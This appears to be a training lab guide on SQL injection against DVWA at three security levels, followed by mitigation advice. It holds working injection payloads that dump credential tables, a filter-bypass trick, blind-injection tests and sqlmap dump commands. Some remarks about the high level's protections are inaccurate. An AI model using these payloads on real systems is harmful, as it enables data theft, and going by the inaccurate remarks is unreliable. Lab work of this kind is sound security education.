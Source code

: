 # SQL Injection Vulnerabilities in DVWA

This document outlines how to exploit SQL injection vulnerabilities in DVWA at different security levels.

## Overview

SQL Injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. It can allow attackers to:

- Bypass authentication
- Access, modify, or delete data
- Execute administrative operations on the database

## DVWA SQL Injection Lab

DVWA provides a dedicated SQL Injection page that demonstrates this vulnerability across different security levels (low, medium, high).

### Prerequisites

- DVWA running and accessible from Kali Linux
- Access to DVWA with admin/password credentials
- Basic understanding of SQL

## Exploitation Steps

### Low Security Level

1. **Navigate to SQL Injection page**
   - Log into DVWA
   - Select "SQL Injection" from the left menu
   - Ensure security level is set to "Low" (DVWA Security → Low)

2. **Basic Enumeration**
   - Enter a simple numeric value like `1` to observe normal behavior
   - Try entering a single quote `'` to test for vulnerability
   - Notice the error message revealing SQL syntax and database structure

3. **Determine Number of Columns**
   - Use `1' ORDER BY 1 -- -` and increment the number until you get an error
   - For example: `1' ORDER BY 3 -- -` (no error), `1' ORDER BY 4 -- -` (error)
   - This tells you there are 3 columns in the query result

4. **Retrieve Database Information**
   - Database version: `1' UNION SELECT 1,@@version,3 -- -`
   - Current database: `1' UNION SELECT 1,database(),3 -- -`
   - List tables: `1' UNION SELECT 1,table_name,3 FROM information_schema.tables WHERE table_schema = 'dvwa' -- -`

5. **Extract User Credentials**
   - Get column names: `1' UNION SELECT 1,column_name,3 FROM information_schema.columns WHERE table_name = 'users' -- -`
   - Extract usernames and passwords: `1' UNION SELECT user,password,3 FROM users -- -`

### Medium Security Level

1. **Bypassing Protections**
   - At medium level, DVWA implements basic filters
   - Use numeric bypasses: `1 UNION SELECT 1,2,3 -- -`
   - Try bypassing WAF using case variation: `1 UniOn SeLeCt 1,2,3 -- -`

2. **Extract User Data**
   - `1 UNION SELECT user,password,3 FROM users -- -`

### High Security Level

1. **Understanding the Protection**
   - High level uses parameterized queries, but still has vulnerabilities
   - Exploitation requires deeper understanding of SQL injection
   - Focus on numeric input as quotes are properly escaped

2. **Blind SQL Injection**
   - Use boolean-based techniques: `1 AND 1=1 -- -` vs `1 AND 1=0 -- -`
   - Time-based techniques: `1 AND SLEEP(5) -- -`

## SQL Injection Tools in Kali Linux

1. **SQLmap**
   - Basic scan: `sqlmap -u "http://dvwa.local/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=your_session_id; security=low" -p id`
   - Database dump: `sqlmap -u "http://dvwa.local/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=your_session_id; security=low" -p id --dbs`
   - Table extraction: `sqlmap -u "http://dvwa.local/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=your_session_id; security=low" -p id -D dvwa -T users --dump`

2. **Burp Suite**
   - Capture requests in Burp Proxy
   - Send to Repeater for manual testing
   - Use Intruder for automated attacks with payloads

## Mitigation Techniques

1. **Use Prepared Statements/Parameterized Queries**
   - Example in PHP: `$stmt = $pdo->prepare('SELECT * FROM users WHERE id = ?');`

2. **Input Validation**
   - Type checking
   - Whitelist validation

3. **Stored Procedures**
   - Limit database permissions
   - Use stored procedures with parameterized inputs

4. **WAF Protection**
   - Implement a Web Application Firewall
   - Use tools like ModSecurity

## Documentation Notes

Record your findings in the following format:

1. Vulnerability details
2. Exploitation steps with screenshots
3. Data extracted
4. Suggested fixes
5. References

Remember to reset the database between tests to ensure consistent results. 